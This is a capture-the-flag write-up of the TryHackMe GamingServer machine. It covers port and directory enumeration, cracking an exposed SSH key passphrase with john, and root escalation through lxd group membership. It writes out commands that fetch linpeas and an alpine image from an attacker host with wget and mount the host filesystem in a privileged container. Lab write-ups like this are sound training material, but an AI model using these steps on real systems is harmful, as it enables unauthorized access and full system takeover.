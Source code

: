 ```yaml
---
title: THM Gamingserver writeup
authors: ["ky"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/80d16a6756c805903806f7ecbdd80f6d.jpeg
tags: ["lxd", "john", "boot2root"]
---
```


Hello Everyone.

This is my first blog so do correct me if I go wrong anywhere. So in this blog we will go through a tryhackme machine [GamingServer](https://tryhackme.com/room/gamingserver)
So lets get started

![](https://tryhackme-images.s3.amazonaws.com/room-icons/80d16a6756c805903806f7ecbdd80f6d.jpeg)

<!--truncate-->

# Enumeration

---

## Nmap

-> Our first step will be to find open ports on given ip so that we can gain access to victim machine from any of the open port using tool called [nmap](https://nmap.org)

```bash
└─$ sudo nmap -sSCV 10.10.210.28
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Gobuster

-> Port 80 is open so our next tasj is to find the directories present on this web server

```bash
└─$ gobuster dir -u http://10.10.210.28 -w /usr/share/wordlists/dirb/common.txt -t 30
2>/dev/null

/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 313] [--> http://10.10.210.28/secret/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.210.28/uploads/]
```

---

-> Lets visit every directory one by one
-> So after visiting robot.txt we get that /upload is allowed  
-> After that we have secret so in this directory we get another dir which contains a encrypted idrsa

![](Attachment/Pastedimage20220101115747.png)

-> Lets save this in a file called `id_rsa`
-> Then convert it to john format using ssh2john so that tool john can crack the password
-> so first conversion to john format
`command: └─$ ssh2john.py id_rsa > coverted `
-> After converting we can use john to crack the password but for cracking we require wordlists
-> So After visiting `/uploads` we got a list which we can use for john
`└─$ wget http://10.10.210.28/uploads/dict.lst` to import this list to local machine
`Note: After importing the list convert it to .txt as john will not accept .lst file as wordlist`

![](Attachment/Pastedimage20220101120705.png)

-> So lets use john to crack the passphrase

![](Attachment/Pastedimage20220101121231.png)

-> We've cracked the passphrase. Now our next task is to find the user from which we will login into the machine using ssh

-> After going through source code of homepage we got the user
![](Attachment/Pastedimage20220101122744.png)

-> So lets login using ssh
`command: └─$ ssh -i id_rsa john@10.10.210.28`

-> After login lets grab the user flag

![](Attachment/Pastedimage20220101123218.png)

# PrivEsc

---

-> Treid `sudo -l` but as we have not password of john so it wont worked
-> Then we've the find command from which we can find the suid files but there also didnt got anything special and last one is cronjobs `cat /etc/crontab` which will give if any cronjob is not there which is executing a file with root perm repeatedly with a time period of sleep but there also we got nothing

-> Then the last option left is to use linpeas
-> We've to transfer the linpeas from our local machine to victim using python3 server and then wget in the victim machine
-> execute this command from directory where the linpeas is downloaded in your local machine
`command: python3 -m http.server 8181 `
-> Then wget the file in victim machine
`command: wget http://<tun0_ip>:8181/linpeas.sh `

-> In the starting of the linpeas result only we are in lxd group
-> So let find out what we can do with it on google
-> After going through couple of links got the blog of [Hacking Articles](https://www.hackingarticles.in/lxd-privilege-escalation/) and followed the steps mentioned in the blog and we got root!!!

```bash
step:
	On attacker machine
		1) git clone  https://github.com/saghul/lxd-alpine-builder.git
		2) cd lxd-alpine-builder
		3) ./build-alpine
		4) python -m SimpleHTTPServer
	On Victim machine
		1) cd /tmp
		2) wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz
		3) lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
		4) lxc image list
		5) lxc init myimage ignite -c security.privileged=true
		6) lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
		7) lxc start ignite
		8) lxc exec ignite /bin/sh
		9) id
		10) cd /mnt/root/root
		11) cat root.txt
```

![](Attachment/Pastedimage20220101133841.png)

![](Attachment/Pastedimage20220101132508.png)

---

It was a great machine. The User shell was bit easy one but in privesc part learned a new thing about how we can get root if we are in the **lxd** group

Thank you for reading my writeup. I will be constantly uploading blogs on different machines of tryhackme, hackthebox and on anything new I will learn. So follow me for my upcoming blogs and also do visit my [twitter](https://twitter.com/ky10100) profile for any upcoming updates. Till then stay safe stay healthy :)
